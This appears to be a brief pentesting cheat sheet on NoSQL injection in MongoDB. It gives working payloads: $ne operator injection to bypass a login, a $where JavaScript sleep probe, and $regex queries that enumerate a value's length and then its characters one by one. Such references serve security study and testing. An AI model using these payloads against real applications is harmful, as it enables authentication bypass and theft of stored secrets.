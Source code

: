 # NoSQLi
SQL engines and MongoDB are different in how they store and manage data, but under the right circumstances the query's logic can be altered.
```
SELECT * FROM users WHERE username='admin' AND password='pass';
db.collection(‘users’).find({‘username’:admin, ‘password’: pass});
```
A collection in MongoDB is somewhat analogous to a table, containing documents which often share the same structure of key value pairs.
## Tricks
### $ne
we can introduce to ```GET /user?username=lowpriv``` the payload: ```username[$ne]='none'``` to get all users whose usernames are not 'none'.
we can loosely compare types using either ```$ne```, ```$gt```, ```$lt```, for example:
```
POST /login

{
  "username":{"$eq":"administrator"},
  "password":{"$ne":1}
}
```
### $where
can be used to execute arbitrary javascript.
```
{
  "$where": "function() { sleep(5000); return true; }"
}
```
### $regex
can match values with regex
#### length enumeration
```
POST /list_items

{
  "description": {
    "$regex": ".{1}"
  }
}
```
```
"$regex": ".{2}"
"$regex": ".{3}"
```
and so on.
after length has been recovered we can fuzz the value with repeated checks:
```{"$regex": "P.{7}"}```
```{"$regex": "Pa.{6}"}```
```{"$regex": "Pas.{5}"}```
